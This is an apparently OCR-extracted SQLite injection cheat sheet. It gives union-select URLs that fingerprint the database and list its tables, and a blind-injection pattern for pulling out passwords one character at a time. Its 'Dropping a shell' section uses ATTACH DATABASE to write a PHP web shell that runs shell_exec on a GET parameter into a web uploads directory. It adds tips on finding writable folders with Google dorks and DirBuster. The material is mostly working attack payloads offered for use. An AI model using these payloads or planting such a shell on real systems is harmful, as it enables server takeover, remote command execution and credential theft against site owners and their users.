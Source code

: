 ```

sqlite> CREATE TABLE demo (data TEXT);

sqlite> INSERT INTO demo (data) VALUES ('junk');

In the case of an SQL injection, e.g. in a table with 3 columns, we'll be in the following case, which will confirm that we are 

in presence of an SQLite database (I assume you already made some SQL injections with MySQL) :

xxx?id=-2 union select sqlite_version(), NULL, NULL--

Listing tables

It's simpler than working with MySQL... or just more verbose.

xxx?id=-2 union select name, NULL, NULL from sqlite_master--

And the best feature, we can get the structure of any table, directly in the SQL language :

sqlite> SELECT sql FROM sqlite_master WHERE name = 'demo';

CREATE TABLE demo (data TEXT)

Dropping a shell

Assume that we want to write the following PHP shell (the <pre> tag is here to have a correct output format when running 

commands like ls) :

<pre><?php echo shell_exec(*dollar-sign*_GET['c']); ?></pre>

sqlite> ATTACH DATABASE '/var/www/uploads/poney.php' as pwn;

sqlite> CREATE TABLE pwn.shell (code TEXT);

sqlite> INSERT INTO pwn.shell (code) VALUES ("<pre><?php echo shell_exec(*dollar-sign*_GET['c']); ?></pre>");

As usual, the only requirement is to have a writable directory on the server - uploads/ or cache/ can be useful. If they don't 

exist, you can still use google dorks (site:www.website.tld) or DirBuster.

Blind Injection

admin' AND SUBSTR(password, i, 1) = 'a'

```
